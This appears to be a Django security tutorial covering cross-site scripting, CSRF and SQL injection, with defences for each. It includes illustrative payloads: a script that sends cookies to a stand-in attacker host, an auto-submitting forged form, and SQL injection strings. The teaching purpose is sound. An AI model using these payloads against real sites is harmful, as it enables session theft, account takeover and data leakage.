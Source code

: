 - We will be mostly talking about web security in this doc and specifically how can django be strong armed against all kind of attacks. 
- So it is preferable that the reader first goes through this [doc](https://docs.djangoproject.com/en/3.0/topics/security/).



## Cross site scripting

- __How does it work?__

  - An attacker somehow manages to inject a JavaScript into the web-page which is considered as a source code by browser and if user click on such element the JavaScript injected by attacker can perform dangerous actions with it.

- __What can attacker do if he able to pull off the injecting part?__

  - Malicious JavaScript has access to all the objects that the rest of the web page has access to. This includes access to the user’s cookies. Cookies are often used to store session tokens. If an attacker can obtain a user’s session cookie, they can impersonate that user, perform actions on behalf of the user, and gain access to the user’s sensitive data.
  - JavaScript can use the `XMLHttpRequest` object to send HTTP requests with arbitrary content to arbitrary destinations.
  - JavaScript in modern browsers can use HTML-5 API. For example, it can gain access to the user’s Geo-location, webcam, microphone, and even specific files from the user’s file system. Most of these APIs require user opt-in, but the attacker can use social engineering to go around that limitation.

- __Here is an example of how this attack works:__

  - Let's say we have a code in our web-page which looks like this:

    

    ```python
    webpage_response = f"""<html>
    <head>
    <title>comments/my_post</title>
    </head>
    <body>
    <h1>My Post latest comments</h1>
    <span>{{ database.latest_comments }}</span>
    </body>
    </html>"""
    return render(webpage_response)
    ```

    

  - Now if some attacker adds a comment to post which is:

    ```javascript
    <script>
    window.location="http://attacker.domain/?cookie=" + document.cookie
    </script>
    ```

    

  - When this web-page will be rendered by any of the website user this script is executed and the information that is stored as cookies will be sent to the attackers website.

  - Keep in mind that lot site keep client secrets in cookies.

  - More info can be found [here](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

- __How to save ourselves?__

  - Django templates [escape specific characters](https://docs.djangoproject.com/en/3.0/ref/templates/language/#automatic-html-escaping) which are particularly dangerous to HTML. While this protects users from most malicious input, it is not entirely foolproof. For example, it will not protect the following:

    ```css
    <style class={{ var }}>...</style>
    ```

  - If `var` is set to `'class1 onmouseover=javascript:func()'`, this can result in unauthorized JavaScript execution, depending on how the browser renders imperfect HTML. (Quoting the attribute value would fix this case.)

  - It is also important to be particularly careful when using `is_safe` with custom template tags, the [`safe`](https://docs.djangoproject.com/en/3.0/ref/templates/builtins/#std:templatefilter-safe) template tag, [`mark_safe`](https://docs.djangoproject.com/en/3.0/ref/utils/#module-django.utils.safestring), and when autoescape is turned off.

  - Most of the time the protection towards this kind of attacks is escaping the dangerous characters or syntax when anything in web-page is dynamic.





# CSRF Attack

- __How does it work?__

  - The attacker causes the victim user to carry out an action unintentionally.

  - For example, suppose an application contains a function that lets the user change the email address on their account. When a user performs this action, they make an HTTP request like the following:

    ```http
    POST /email/change HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 30
    Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE
    
    email=wiener@normal-user.com
    ```

  - Now attacker will create an HTML page somewhat like this:

    ```html
    <html>
      <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
          <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```

  - The attacker's page will trigger an HTTP request to the vulnerable web site.

  - If the user is logged in to the vulnerable web site, their browser will automatically include their session cookie in the request (assuming [SameSite cookies](https://portswigger.net/web-security/csrf/samesite-cookies) are not being used).

  - The vulnerable web site will process the request in the normal way, treat it as having been made by the victim user, and change their email address.

- __What can attacker do?__

  - In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality.

- __How to save ourselves?__

  - The most robust way to defend against CSRF attacks is to include a [CSRF token](https://portswigger.net/web-security/csrf/tokens) within relevant requests.
  - The token should be:
    - Unpredictable with high entropy, as for session tokens in general.
    - Tied to the user's session.
    - Strictly validated in __every case__ before the relevant action is executed.



# SQL injection

- __How does it work?__

  - SQL injection is a type of attack where a malicious user is able to execute arbitrary SQL code on a database. This can result in records being deleted or data leakage.

  - Let's say we have a query like this in our code to get data:

    ```sql
    select * from sensitive_data where username = '@username' and password = '@password'
    ```

  - Here, `@username` and `@password` is provided by user.

  - An attacker could pass it like this:

    `@username = 1' or '1`

    `@password = 1' or '1`

    If this is replaced in the query we get:

    ```sql
    select * from sensitive_data where username = '1' or '1' and password = '1' or '1'
    ```

  - This query will result in exploiting data of all the users that we have.

- __What can attacker do?__

  - Basically anything that he wants to do with the database.

- __How to save ourselves?__

  - Avoid using  raw sql queries in django.
  - Django ORM is already protected from this.
  - Use prepared statement instead of normal queries when there is no other option.
  - Escape sql characters like `"`,  `'`,  `or`,  etc.
  - Read [this](https://realpython.com/prevent-python-sql-injection/).

